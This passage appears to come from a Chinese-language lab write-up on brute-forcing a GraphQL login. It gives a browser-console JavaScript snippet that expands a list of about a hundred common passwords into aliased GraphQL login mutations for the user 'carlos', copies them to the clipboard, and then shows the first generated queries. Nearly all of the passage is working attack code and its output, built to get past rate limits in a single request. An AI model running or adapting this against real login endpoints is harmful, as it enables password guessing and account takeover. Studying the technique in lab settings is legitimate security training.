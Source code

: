 ```bash
copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>`
bruteforce$index:login(input:{password: "$password", username: "carlos"}) {
        token
        success
    }
`.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
```

[![](assets/1708485015-89d78bc8e4cc24c089a11c200cc2469b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220153013-e2e4a9ee-cfc1-1.png)  
在浏览器一侧进行一个简单的构造：

```bash
bruteforce0:login(input:{password: "123456", username: "carlos"}) {
        token
        success
    }


bruteforce1:login(input:{password: "password", username: "carlos"}) {
        token
        success
    }


bruteforce2:login(input:{password: "12345678", username: "carlos"}) {
        token
        success
    }


bruteforce3:login(input:{password: "qwerty", username: "carlos"}) {
        token
        success
    }


bruteforce4:login(input:{password: "123456789", username: "carlos"}) {
        token
        success
    }


bruteforce5:login(input:{password: "12345", username: "carlos"}) {
        token
        success
    }
```